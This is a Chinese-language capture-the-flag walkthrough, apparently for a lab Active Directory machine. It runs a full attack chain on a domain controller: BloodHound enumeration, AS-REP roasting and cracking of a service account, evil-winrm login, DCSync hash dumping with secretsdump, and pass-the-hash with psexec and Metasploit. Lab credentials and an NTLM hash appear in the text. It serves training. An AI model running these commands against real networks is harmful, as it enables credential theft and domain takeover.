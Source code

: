 ## 端口扫描

首先，通过masscan对目标10.10.10.30进行快速的端口扫描

![](./1.png)
 
从扫描结果看出，该服务器开启了多个AD相关端口，如88端口的kerberos服务和389端口的LDAP服务，这意味着这是一台域控服务器。另外，5985端口开放意味着该服务器开启了winrm服务。

## 收集域信息

通过上一台机器获取到的信息，已知域megacorp.local，用户名sandra，密码Password1234!，gc(全局编录服务器)pathfinder.megacorp.local，ns(dns服务器)10.10.10.30
通过bloodhound工具去枚举活动目录。

安装bloodhound-python:

pip install bloodhound  

bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30

![](./2.png)
 
安装neo4j:

apt install neo4j

安装bloodhound:

apt install bloodhound

开启neo4j:

neo4j start console

访问http://localhost:7474/browser，默认用户名neo4j，密码neo4j，会提示修改密码

Bloodhound –no-sandbox 登陆neo4j的数据库

将bloodhound-python跑出来的json文件拖进bloodhound，bloodhound会开始进行分析。在过滤条件选择Shortest paths to High value Targets 和 Find Principles with DCSync Rights

![](./3.png) 

可以看到svc_bes用户拥有GetChangesAll的权限。这意味着该用户可以从域控复制数据，从而获取用户hash。

![](./4.png)

## 横向移动

发现svc_bes账号没有开启kerberos预授权，这意味存在AS-REP Roasting漏洞，通过impacket中的GetNPUsers脚本获取获取TGT票据，将票据存放到hash文件，用john爆破获取到svc_bes账号的明文密码Sheffield19  

GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30

![](./5.png)

## 获取普通用户权限

安装evil-winrm:

gem install evil-winrm

通过winrm服务登陆svc_bes账号:  

evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

获取普通用户的flag

![](./6.png)

## 权限提升
 
因为svc_bes用户存在GetChangesAll权限，因此可以使用impacket中的secretdump脚本通过DCsync攻击去dump所有域用户的NTLM hash 

secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30

![](./7.png)

我们获取到了域管理员的NTLM hash，因此可以使用psexec脚本通过PTH(哈希传递)攻击获取system权限

psexec.py megacorp.local/administrator@10.10.10.30 -hashes NTML hash:NTLM hash

![](./8.png)

msf也有对应的模块
use windows/smb/psexec_psh

set SMBPass aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18

set SMBUser administrator

set SMBDomain MEGACORP.LOCAL

set rhosts 10.10.10.30

set rport 445

exploit

![](./9.png)

## 整体思路

![](./思路.jpg)
 
